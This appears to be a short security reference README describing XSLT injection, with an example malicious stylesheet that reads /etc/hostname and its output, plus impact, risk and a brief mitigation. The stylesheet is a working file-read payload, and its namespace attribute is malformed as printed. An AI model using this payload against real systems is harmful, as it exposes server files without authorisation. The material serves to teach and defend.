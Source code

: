 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/xslt-injection/main/xslt-injection.png"></p>

A threat actor may interfere with an application's processing of extensible stylesheet language transformations (XSLT) for markup language (XML) to read or modify data on the target

## Example #1
1. Threat actor submits a malicious request to a target that has a vulnerable XSLT processor
2. The target's XSLT processor parses the malicious file (Based on the processor and the version of the XSLT specification)

## Code
#### Target-in
```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xs><xsl:template match="/"><xsl:copy-of select=" document('/etc/hostname')"/></xsl:template></xsl:stylesheet>
```

#### Target-Out
```
usystem01
```

## Impact
High

## Names
- XSLT Injection

## Risk
- Read & Write data
- Command Execution

## Redemption
- Secure processing

## ID
012e4a7b-b8ae-44a6-9b6f-08d24cf7dba2

## References
- [acunetix](https://www.acunetix.com/vulnerabilities/web/xslt-injection)
